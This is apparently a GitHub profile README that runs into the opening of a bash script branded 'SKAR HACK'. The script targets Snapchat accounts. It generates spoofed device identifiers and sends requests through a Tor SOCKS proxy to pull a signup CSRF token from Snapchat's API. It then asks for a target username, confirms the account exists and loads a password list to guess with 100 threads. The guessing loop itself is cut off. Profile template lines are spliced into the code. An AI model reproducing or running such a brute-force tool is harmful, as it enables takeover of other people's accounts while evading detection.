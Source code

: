 - 👋 Hi, I’m @alm1111112
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- trap 'store; exit 1;' 2

counter=0
counter2=20
counter3=40
counter4=60
counter5=80
start=0
end=20
turn=$((start+end))
startline=1
endline=20
sumstart=0
string4=$(openssl rand -hex 32 | cut -c 1-4)
string8=$(openssl rand -hex 32  | cut -c 1-8)
string12=$(openssl rand -hex 32 | cut -c 1-12)
string16=$(openssl rand -hex 32 | cut -c 1-16)
device="android-$string16"
uuid=$(openssl rand -hex 32 | cut -c 1-32)
phone="$string8-$string4-$string4-$string4-$string12"
guid="$string8-$string4-$string4-$string4-$string12"
var0=$(curl --socks5 localhost:9051 -i -s -H "$header" https://accounts.snapchat.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=$uuid > /dev/null)
var2=$(echo $var0 | grep -o 'csrftoken=.*' | cut -d ';' -f1 | cut -d '=' -f2)


banner() {

printf "\e[1;95m                             ______           \e[0m\n"
printf "\e[1;95m                          .-        -.         \e[0m\n"
printf "\e[1;95m                         / SKAR-HACK  \         \e[0m\n"
printf "\e[1;95m                           ---------             \e[0m\n"
printf "\e[1;95m                        |,  .-.  .-.  ,|         \e[0m\n" 
printf "\e[1;77m                        | )(_ /  \_ )( |             \e[0m\n"
printf "\e[1;77m                        |/     /\     \|               \e[0m\n"
printf "\e[1;91m              (@_       <__    ^^    __>                          \e[0m\n"
printf "\e[1;91m         _     ) \_______\__|IIIIII|__/________________________     \e[0m\n"
printf "\e[1;91m        (_)@8@8{}<________ ____________________________________>     \e[0m\n"
printf "\e[1;91m               )_/         \ IIIIII /                                  \e[0m\n"
printf "\e[1;91m              (@            --------                                   \e[0m\n"

printf "\e[1;91m                   SKAR HACK (Telegram-skar44)  \e[0m\n" 
}


function start() {
read -p $'\e[1;92mUsername account: \e[0m' user
checkaccount=$(curl -L -s https://www.snapchat.com/$user/ | grep -c "the page may have been removed")
if [[ "$checkaccount" == 1 ]]; then
printf "\e[1;91mInvalid Username! Try again\e[0m\n"
sleep 1
start
else
default_wl_pass="passwords.lst"
read -p $'\e[1;92mPassword List (Enter to default list): \e[0m' wl_pass
wl_pass="${wl_pass:-${default_wl_pass}}"
default_threads="100"
threads="${threads:-${default_threads}}"
fi
}
